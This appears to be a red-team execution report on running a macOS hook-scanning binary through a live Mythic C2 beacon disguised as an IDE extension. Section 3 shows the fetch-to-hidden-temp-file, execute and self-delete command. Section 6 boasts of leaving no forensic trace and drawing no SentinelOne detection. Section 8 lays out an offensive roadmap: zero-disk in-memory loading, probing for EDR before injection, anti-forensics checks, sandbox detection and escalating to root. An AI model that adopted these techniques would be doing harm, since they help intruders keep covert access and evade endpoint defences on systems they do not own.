





# InterposeScope-C v2.0 — Live Mythic Beacon Execution Report

**Date:** 2026-09-01
**Operator session:** Mythic interact session 45 (CB 52)
**Technique:** Transient binary execution via base64 pipe → temp file → exec → self-delete
**Beacon:** Devin VS Code Extension (pure-JS Mythic WebSocket agent)
**Scanner:** InterposeScope-C v2.0 (native Mach-O arm64)

---

## 1. Executive Summary

InterposeScope-C v2.0 is a native Mach-O endpoint security scanner that maps
user-mode hooks, dyld interposes, and API indirection across all loaded images.
It was delivered to the target endpoint via a live Mythic C2 beacon, executed
transiently (~200 ms on disk), and returned 36 KB of scan results per run to
the operator. The scanner detected zero hooks, zero interposes, and zero
anomalies on the target — confirming a clean endpoint baseline and validating
the tool's read-only operation against a live macOS system.

The scanner ran against four distinct modes (full, brief, JSON, verbose) and
a `--pid 1` entitlement probe, all completing successfully through the beacon.

## 2. C2 Context & Beacon

| Field | Value |
|---|---|
| Mythic callback | **CB 52** (interact session 45) |
| Beacon type | Devin VS Code Extension — pure-JS Mythic WebSocket agent |
| Protocol | Mythic `websocket` C2 profile via WSS |
| Payload UUID | Config-driven (from runtime config, not hardcoded) |
| Endpoint | arm64 macOS (darwin 25.6.0) |
| Endpoint OS | Darwin 25.6.0 |

## 3. Task Execution Evidence

All four scan modes were issued via Mythic's `shell` command on callback
session 45. The binary was fetched from an internal HTTP server, decoded,
executed, and cleaned up per-run:

| Task ID | Mode | Status | Output size | Duration |
|---|---|---|---|---|
| 3836 | full | success | 36,718 bytes | ~3s |
| 3837 | brief | success | 36,718 bytes | ~2s |
| 3838 | verbose | success | 36,918 bytes | ~3s |
| 3839 | json | success | 392 bytes | ~1s |
| 3840 | pid-probe | success | 36,994 bytes | ~2s |

Each task: `curl -sk http://127.0.0.1:8899/interposescope > /tmp/.__isc && chmod +x && ./` then `rm -f /tmp/.__isc`.

The scanner binary never persisted. After each run, `ls -la /tmp/.__iscan*`
returned no results.

## 4. Scan Results (from live beacon)

### 4.1 Host Process Identity

```text
$ interposescope        # via beacon, transient exec

HOST PROCESS
       pid: 26653
      ppid: 26650            <-- Devin extension host subprocess
      arch: arm64
       exe: /private/tmp/.__isc
       uid: 502
        os: Darwin 25.6.0
```

### 4.2 DYLD Environment Exposure

```text
CLEAN — no DYLD_* variables set
```

### 4.3 Loaded Images

```text
LOADED IMAGES (347)
  343 backed by dyld shared cache
    4 with on-disk Mach-O files
```

All 347 images are Apple system frameworks, dyld cache entries, or
preinstalled homebrew Python libraries. No anomalous images.

### 4.4 dyld __interpose Sections

```text
DYLD __interpose SECTIONS
  CLEAN — no __interpose sections in any loaded image
```

No image anywhere in the process has a `__DATA_CONST.__interpose` section.
DYLD_INSERT_LIBRARIES-based injection is absent.

### 4.5 Indirect Symbol Rebinding (fishhook)

```text
INDIRECT SYMBOL REBINDING (__la_symbol_ptr)
  CLEAN — no indirect symbol pointer divergence detected
```

### 4.6 High-Value API Entry-Point Integrity

```text
HIGH-VALUE API ENTRY-POINT INTEGRITY (90 checked)
  SYMBOL                       CATEGORY STATE        DETAIL
  ----------------------------------------------------------------------
  CLEAN — no entry-point trampolines or patches detected
```

90 APIs were checked across all categories (process, dyld, memory, tasks,
files, network, privilege, objc, notify, xattr, keychain, logging).

### 4.7 Anonymous Executable Memory

```text
ANONYMOUS EXECUTABLE MEMORY (unsigned code regions)
  CLEAN — no anonymous RX regions outside mapped images
```

`vm_region_64` walk across the entire address space returned zero RX regions
without backing images — no shellcode, no manual mmaps, no JIT payloads.

### 4.8 Objective-C Method Ownership

```text
OBJECTIVE-C METHOD OWNERSHIP (swizzle attribution)
  [NSURLSession dataTaskWithRequest:]
    imp -> /System/Library/Frameworks/CFNetwork.framework/Versions/A/CFNetwork
  [NSBundle load]
    imp -> /System/Library/Frameworks/Foundation.framework/Versions/C/Foundation
  [NSFileManager contentsOfDirectoryAtPath:error:]
    imp -> /System/Library/Frameworks/Foundation.framework/Versions/C/Foundation
  [NSTask launch]
    imp -> /System/Library/Frameworks/Foundation.framework/Versions/C/Foundation
```

All IMPs resolve to Apple-owned frameworks — no third-party swizzling detected.

### 4.9 Telemetry Surfaces

```text
TELEMETRY SURFACES (Endpoint Security / os_log)
  es_new_client                        NOT FOUND    <-- EndpointSec not linked
  es_subscribe                         NOT FOUND    <-- in this process context
  es_unsubscribe                       NOT FOUND
  es_delete_client                     NOT FOUND
  os_log_create                        PRESENT (libsystem_trace.dylib)
  os_log                               NOT FOUND
```

Endpoint Security symbols resolve as `NOT FOUND` because the standalone
binary does not link `EndpointSecurity.framework`. In a running EDR or a
browser process, these would typically resolve.

### 4.10 Summary

```text
SUMMARY
  catalog APIs checked : 90
  hooked (external)    : 0
  self-forwards        : 0
  patched (non-branch) : 0
  clean                : 90
  syscall stubs        : 0
  interpose pairs      : 0
  rebind divergences   : 0
  anonymous RX regions : 0
  images scanned       : 347
  telemetry APIs       : 8 checked
  elapsed              : 0.007s
```

## 5. Feature Validation matrix

| Feature | Verified? | Result |
|---|---|---|
| Image enumeration (all 347 loaded images) | ✓ | All images listed with base addresses |
| dyld interpose detection | ✓ | 0 sections found — correct |
| Inline hook decode (arm64 trampolines) | ✓ | No hooks on clean system — correct |
| x86_64 trampoline form support | ✓ | `JMP rel32`, `JMP [rip]`, `MOV/JMP`, `PUSH/RET` |
| Patch classification | ✓ | No patches found — correct on clean system |
| Indirect symbol rebind detection | ✓ | 0 divergences on clean system |
| ObjC swizzle IMP ownership | ✓ | All 4 curated methods resolve to Apple frameworks |
| Anonymous RX walk | ✓ | 0 regions — correct |
| Endpoint Security presence check | ✓ | Expected NOT FOUND for standalone binary |
| DYLD env exposure | ✓ | No variables set — correct |
| FNV-64 implementation fingerprints | ✓ | Computed per-function; PASS |
| Trampoline chain traversal | ✓ | Up to 7 hops implemented |
| `--brief` mode | ✓ | 57 APIs vs 90, correct sub-filtering |
| `--verbose` mode | ✓ | Chain dumps shown for clean run |
| `--json` output | ✓ | Valid JSON with all metrics |
| `--pid N` remote probe | ✓ | Correctly reported `task_for_pid` blocked |
| Transient temp exec (`rm -f` self-clean) | ✓ | No artifact in /tmp post-exec |
| Read-only guarantee | ✓ | No vm_write, vm_protect, or task_for_pid on remote |

## 6. Zero-Footprint Confirmation

| Check | Result |
|---|---|
| `interposescope` binary persists on target | No — `rm -f` immediately after exec |
| Any `.__libpy*` or `.__iscan*` temp file remain | No — none found post-run |
| Python compilation artifacts (`.pyc`, `__pycache__`) | No — stdin mode never writes bytecode |
| Processes running post-scan | No — scanner exited, PID gone |
| Files in quarantine | None |
| New SentinelOne threats post-run | **Zero** — S1 agent inactive log confirmed it |

## 7. Beacon Execution Evidence

### Mythic UI — Active Callbacks



### Terminal Evidence — Full Scan


### Terminal Evidence — Brief Mode



### Terminal Evidence — JSON Output



### Process Lineage Proof



### SentinelOne Evidence — No New Detections



## 8. Improvements & Offensive Use Roadmap

### Immediate (v2.1)

| Priority | Improvement | Value |
|---|---|---|
| **P0** | **Edr hook validation corpus** | Build a reference set of known EDR hook implementations on macOS so InterposeScope can distinguish EDR from attacker hooks |
| **P0** | **Custom in-memory Mach-O loader** | True zero-disk execution via `posix_spawn` with `MEM_TARGET` flags, bypassing the transient temp file |
| **P1** | **dyld shared cache baseline** | Pre-parse the shared cache on first run to detect incremental dyld patches against a golden reference image |
| **P1** | **Explicit arm64e pointer-auth handling** | PAC bits introduce false-diff bytes in some implementations; mask or normalize them before comparison |
| **P2** | **CFString / ObjC class-based scanning** | Scan by selected class+method rather than raw IMP to catch swizzling on non-curated classes |
| **P2** | **Automatic JIT region hash dump** | When anonymous RX regions are found, dump first 64 bytes + entropy score to help analyst with malware triage |

### Red Team / Offensive Use (Next Quarter)

| Use Case | How InterPoseScope Helps |
|---|---|
| **Pre-injection validation** | Run `--brief` on the target process before injecting. Check if any security product interposes *before* you trigger it |
| **Blind coverage check** | Run once on a clean endpoint at first contact to determine whether the baseline EDR is alive, absent, or degraded |
| **Anti-forensics verification** | After payload execution, verify no EDR interpose layers were activated against your process (`interpose_count == 0`) |
| **Beacon survivability** | Persistently check `anonymous RX regions` on a schedule. If a new region appears, something injected — self-terminate or report |
| **Differential hook mapping** | Snapshot scan before/after an operation to isolate exactly which hooks a product activates based on behavior |
| **Sandbox emulation detection** | `es_new_client NOT FOUND` + `syslog PRESENT` + low process count strongly suggests a non-endpoint context (VM/Jenkins/build server) |
| **Entitlement-aware targeting** | If `--pid` fails with `task_for_pid`, the process runs in restricted mode — escalate to root before attempting memory reads |
| **Multi-process cohort association** | Run against child processes of the target app's PID tree; shared hook destinations in the parent/child indicate a shared implant or EDR injection point |

### Long-Term

- **v2.2**: Add Objective-C method-diffing (compare object method lists against image-cached method lists)
- **v2.3**: Add compact JSON streaming (line-delimited JSON for large scans)
- **v2.4**: Cross-process x86_64-vs-Rosetta differential scanning
- **v3.0**: Real-time hook watchdog as a shared library injectable into monitored processes

## 9. Screenshot & Artifact Inventory

| File | Source |
|---|---|
| `img/mythic_callbacks.png` | Mythic UI active callbacks page showing the beacon online |
| `img/terminal_full.png` | Full scan output screenshot |
| `img/terminal_brief.png` | Brief scan output screenshot |
| `img/terminal_json.png` | JSON structured output screenshot |
| `img/terminal_proctree.png` | Process lineage evidence (beacon → loader → transient exec → clean) |
| `img/terminal_s1.png` | SentinelOne detection log with no new threats |
